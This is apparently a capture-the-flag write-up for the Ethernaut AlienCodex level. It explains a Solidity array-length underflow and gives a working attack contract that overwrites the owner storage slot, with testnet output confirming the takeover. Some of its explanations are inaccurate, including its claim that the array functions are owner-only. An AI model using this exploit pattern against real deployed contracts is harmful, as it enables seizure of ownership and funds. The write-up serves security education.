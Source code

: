 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel19.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function makeContact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

Challenge's message: 

> You've uncovered an Alien contract. Claim ownership to complete the level.


The AlienCodex is a solidity smart contract that serves as a simple decentralized data storage system. It allows users to record and manage data (represented as bytes32 values) in a publicly accessible array called **codex**. The contract also includes a feature to enforce access control through a modifier named **contacted**. This is a custom modifier used to ensure that certain functions can only be executed when contact has been made. It uses the assert statement to check the value of the contact variable.

Then, the **makeContact()** function allows any user to establish contact with the contract. It sets the contact variable to true, indicating that the user has made contact with the contract. **Only users who have made contact can perform certain operations on the codex**.

After then, there is an external function called **record()** that allows the contract owner to record a new entry in the codex array. The `_content` parameter is the content to be recorded, provided in the form of a bytes32 value.

Also, in the **retract()** external function, it allows the contract owner to retract the last entry in the codex array. This function can only be called after contact has been established.

Finally, we have **revise()** function that allows the contract owner to revise an existing entry in the codex array. The `_content` parameter is the updated content to be recorded, and the `i` parameter indicates the index of the entry to be revised. This function can only be called after contact has been established.

When working with arrays in Solidity, it's crucial to be cautious about the size of the array in the contract's storage. Failure to implement this properly can result in potential security risks, as is the case with this particular contract.


## Dynamic Array Underflow

Dynamic Array Underflow is a vulnerability that can occur in smart contracts written in Solidity. It is a form of "underflow" vulnerability, where the index used to access an element in the dynamic array becomes negative or goes out of bounds due to incorrect calculations or manipulations in the contract code. Thus, the attacker can **get control array's storage in the contract and change the other storage's values what he want**.


In the **retract()** function, there is the `codex.length--;` code. Because of the contract version, there **should be an overflow check** but it is not. So, this code triggers the underflow vulnerability.

## First Underhanded Solidity Contest

The Underhanded Solidity Contest is a specialized programming contest that aims to challenge developers to write Solidity smart contracts that are intentionally deceptive or maliciously crafted to be difficult to detect as harmful. The primary goal of the contest is to identify and expose potential vulnerabilities or pitfalls in smart contract development that might be exploited by malicious actors in real-world scenarios.

In this article, we are talking about one of this scenarios. 

In the context of Ethereum and smart contracts, the ABI is a standard interface that defines how to interact with smart contracts. It acts as a bridge between higher-level programming languages and the low-level Ethereum Virtual Machine (EVM) bytecode. The ABI specifies the rules and conventions for encoding and decoding function calls and data when interacting with smart contracts. It allows external applications, such as web3 libraries, wallets, and other contracts, to communicate with smart contracts on the Ethereum blockchain.

ABI contains two main components:

- **Function Signatures** : Function signatures are used to uniquely identify functions within a smart contract. They consist of the function name and its parameter types, which are hashed using the Keccak-256 (SHA-3) hash function to create a 4-byte function selector.
- **Data Encoding Rules** : The ABI defines how data should be encoded into a format that can be understood by the EVM when making function calls.


On the other hand, sometimes this feautures are not quit pretty. For example, the **ABI decoder does not check for overflows**. For this reason, it can **help the attacker to exploit some underflows** vulnerability. Let me explain this with dynamic array underflow example. 

Consider that we have two dynamic arrays which are `uint a[]` and `uint b[]`. And, let's look at how the ABI works with these arrays.

- `a.length == b.length` is checked for overflows, but it **is not check** the `a.length == NO_OF_A_LENGTH` condition.

The actual problem is that b.length is assumed to equal NO_OF_A_LENGTH but this assumption is not checked anywhere, the overflow only helps in executing the exploit.


 

# Subverting

For passing this challenge, we must get ownership of the contract. That's why, we should know the owner's storage slot in the contract before exploiting the dynamic array underflow vulnerability. When you look at the ABI of the contract, we can see that the Ownable contract's variables are in. In this case, we can reach the owner's slot number from the contract's storage with the `web3.eth.getStorageAt()` method. If you don't know about this method, you can navigate [this website.](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

```js
await contract.owner()
'0x0BC04aa6aaC163A6B3667636D798FA053D43BD11'
```
```js
await web3.eth.getStorageAt(contract.address, 0, console.log)
'0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'
```

As you can see, the owner variable is stored along with the boolean type of the contact variable in the first slot. The reason for compressing these values into one slot is to optimize gas usage and save space in the contract. 

The last thing before pass on to the attack contract is calculate index number when we access the array at slot 0 and update the value of owner with our own address. Here is our brainful:

```solidity
uint i = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
```

We used `keccak256(abi.encode(1)` code to directly get in contact with contract's ABI for manipulate the slot's value with dynamic array underflow mechanism. Now, let's look at attack contract.

```solidity
// Target Contract Address -> 0x90Ff4F63Db3919667BF2B3FD78Bd63654a3921E6

pragma solidity ^0.5.0;

import './AlienCodex.sol';

contract Attack{

    AlienCodex target;

    constructor(address _target)public{
        target = AlienCodex(_target);
    }

    function attack()external{
        uint i = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
        target.makeContact();
        target.retract();
        target.revise(i, bytes32(uint(uint160(msg.sender))));
    }   
}
```

Basically, we calculated the index and set the contact variable as true. Then, the array will be underflow and update the value of owner with our own address. Let's complete!

Deploy the contract and check the owner of the contract. See in [etherscan.](https://sepolia.etherscan.io/tx/0x42f2d3f4bceefa3c9c5b5b6b6fffd29f7ca1c977a713fe80fbf522d07c9883c7)

```js
await contract.owner()
'0x0BC04aa6aaC163A6B3667636D798FA053D43BD11'
```

After calling attack function, check the owner again. And, the mission is completed. See in [etherscan.](https://sepolia.etherscan.io/tx/0x13bb7ac279736b86cd72e4b78e7f90a351fec8cd117722ef26ef833fe93621f0)

```solidity
await contract.owner()
'0x9C84d84b46971Faf8B480aB116b7f5391D630fA1'
```
```js
player
'0x9C84d84b46971Faf8B480aB116b7f5391D630fA1'
```

Ethernaut's message:

> This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload. Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of 2^256. The user is then able to modify all contract storage. Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)


**_by wasny0ps_**
